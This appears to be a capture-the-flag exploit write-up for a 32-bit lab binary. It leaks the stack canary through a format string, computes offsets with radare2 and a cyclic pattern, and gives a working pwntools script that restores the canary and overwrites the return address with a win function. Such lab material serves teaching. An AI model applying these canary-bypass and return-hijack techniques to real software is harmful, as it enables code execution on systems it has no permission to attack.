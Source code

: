 ## 📘 Exploit Write-up: `vuln-32` – Format String Canary Leak to Code Execution

---

### 🔍 Binary Info

* **Target:** `vuln-32`
* **Arch:** 32-bit (`x86`)
* **NX:** Enabled
* **ASLR:** Enabled
* **Stack Canary:** ✅ Enabled
* **PIE:** Disabled
* **Libc:** Dynamically linked
* **Vulnerability:** Format String → Stack Canary Bypass

---

### 🎯 Goal

Leak the **stack canary** using a format string vulnerability and then perform a buffer overflow that overwrites the return address without triggering a crash.

---

### 🔓 Vulnerability

The binary contains a **format string vulnerability** allowing the attacker to leak arbitrary stack values.

Using a payload like:

lets leak the stack canary

![canary leak](./img/canary.png)

here we can see that the canary is at 24 offset of the stack

We can tell because it's roughly 64 bytes after the "buffer start", which should be close to the end of the buffer. Additionally, it ends in 00 and looks very random, unlike the libc and stack addresses that start with f7 and ff.

```bash
$ ./vuln-32 
Leak me
%23$p %24$p %25$p
0x43ebcc00 (nil) 0xf7f83e14
Overflow me
```

It appears to be at %23$p. Remember, stack canaries are randomised for each new process, so it won't be the same.

---

### padding to the return addr

to find the padding between the canary and return address we need to find the positiopn of both canary and return address and then substract them 

we will use ragg2 to get the cyclic pattern

```bash
$ ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
```

dissass of main

```bash
[0x0804920f]> s main; pdf
            ; DATA XREFS from entry0 @ 0x80490a6(r), 0x80490ac(w)
┌ 28: int main (int argc, char **argv, char **envp);
│           0x08049229      55             push ebp
│           0x0804922a      89e5           mov ebp, esp
│           0x0804922c      83e4f0         and esp, 0xfffffff0
│           0x0804922f      e83c000000     call sym.__x86.get_pc_thunk.ax
│           0x08049234      05cc2d0000     add eax, 0x2dcc
│           0x08049239      e854ffffff     call sym.vuln
│           0x0804923e      b800000000     mov eax, 0
│           0x08049243      c9             leave
└           0x08049244      c3             ret
[0x08049229]>
```

to return address would be 0x0804923e we have to find its postion on the stack 

![return addr](./img/returnaddr.jpg)

now lets enter the cyclic pattern and overflow the buffer

![overflow](./img/overflow.png)


```bash
padding = returnaddress_offset - canary_offser
padding = 80 - 64 = 16
```

Return pointer is 16 bytes after the canary start, so `12 bytes` after the canary.

---



### ⚙️ Exploit Strategy

1. **Start the binary** and clean any buffered output.
2. **Send `%23$p`** to leak the stack canary from the format string vulnerability.
3. **Parse the leaked value** as a 32-bit address.
4. Build the payload:

   * Overflow buffer up to the canary.
   * Write back the original canary to avoid detection.
   * Pad to the saved return address.
   * Overwrite return address with a controlled address (e.g., a win function).
5. **Send the payload** and observe successful execution.

---

### 🧪 Exploit Code

```python
from pwn import *

p = process('./vuln-32')

# Step 1: Start and clean initial output
log.info(p.clean())
p.sendline('%23$p')  # Step 2: Leak canary

# Step 3: Parse canary
canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

# Step 4: Build payload
payload  = b'A' * 64         # Buffer overflow to canary we can also find using cyclic pattern
payload += p32(canary)       # Correct canary to bypass check
payload += b'A' * 12         # Padding to return address
payload += p32(0x08049245)   # Overwrite return address with "win" function or similar

# Step 5: Send payload
p.clean()
p.sendline(payload)

# Step 6: Read result
print(p.clean().decode('latin-1'))
```

---

### 🧾 Output Example

![final result](./img/finalresult.png)

---

### ✅ Exploit Success

The payload successfully bypasses the stack canary using the leaked value and redirects execution flow to a controlled address (such as a `win()` function or similar shell-triggering code).

---

### 🏷️ Tags

`32-bit`, `format string`, `canary leak`, `stack canary`, `buffer overflow`, `no PIE`, `NX enabled`, `ASLR enabled`, `pwntools`, `ret2win`


